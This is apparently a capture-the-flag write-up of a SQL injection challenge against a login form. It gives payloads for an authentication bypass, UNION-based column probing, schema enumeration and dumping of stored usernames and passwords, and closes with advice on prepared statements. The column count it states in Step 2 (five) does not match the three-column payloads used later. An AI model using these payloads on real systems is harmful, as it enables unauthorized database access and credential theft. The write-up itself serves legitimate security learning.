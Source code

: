 ### **SQL Injection and Extracting Sensitive Data**

In this challenge, we have a form with two fields: `username` and `password`. Our goal is to exploit an SQL Injection vulnerability to extract sensitive data from the database.

![Screenshot](images/web_chall_description.png)

---

#### **Step 1: Testing a Basic SQL Injection**

I started by testing a simple SQL injection in the `password` field. Here is the payload used:

`username=admin&password='OR''='`

**Result:**  
The server returns a list of users present in the database:

![Screenshot](images/web_sqli_auth_bypass.png)

---

#### **Step 2: Determining the Number of Columns**

Next, I tried to determine the number of columns required for a valid SQL query. I used this payload:

`username=admin&password=' UNION SELECT null, null, null, null, null, null --`

An error was triggered, indicating that 5 columns are required for a valid injection.

![Screenshot](images/web_column_nb.png)

---

#### **Step 3: Retrieving the Database Version**

With the correct number of columns, I used a payload to retrieve the database version:

`username=a&password=' UNION SELECT 1, @@version, 3-- -`

**Result:**

![Screenshot](images/web_db_version.png)

This indicates that the database is running MySQL version **5.7.44**.

---

#### **Step 4: Listing Available Tables**

To list the available tables in the database, I used the following payload:

`username=a&password=' UNION SELECT 1, TABLE_NAME, 3 FROM INFORMATION_SCHEMA.TABLES-- -`

**Result:**

![Screenshot](images/web_listing.png)

---

#### **Step 5: Listing the Columns of a Table**

Once the `blueprints` table was identified, I listed its columns using this payload:

`username=a&password=' UNION SELECT 1, COLUMN_NAME, 3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blueprints'-- -`

**Result:**

![Screenshot](images/web_column_names.png)

---

#### **Step 6: Extracting Data from the Table**

I then extracted the contents of the `blueprints` table by concatenating the columns:

`username=a&password=' UNION SELECT id, CONCAT(username, ':', password, ':', is_encrypted, ':', file_name, ':', description), 3 FROM blueprints--`

**Result:**

![Screenshot](images/web_extr_infos.png)

---

#### **Step 7: Decoding the Extracted Data**

Upon further inspection, I found an interesting string associated with the `secret_key.txt` file:

`W5HWRxWbZM7AUhxgfRwZg58ANQFKgMwutG`

By decoding it using **Base58**, I found the flag.

![Screenshot](images/web_decode1.png) ![Screenshot](images/web_decode2.png)

---

### **Conclusion**

This challenge demonstrates the potential impact of an SQL Injection vulnerability. With well-crafted payloads, it is possible to extract sensitive information such as table names, column names, and even critical data. The final step of decoding the retrieved data was essential to solving the challenge. To prevent such attacks, always sanitize inputs and use **prepared statements** when interacting with databases.
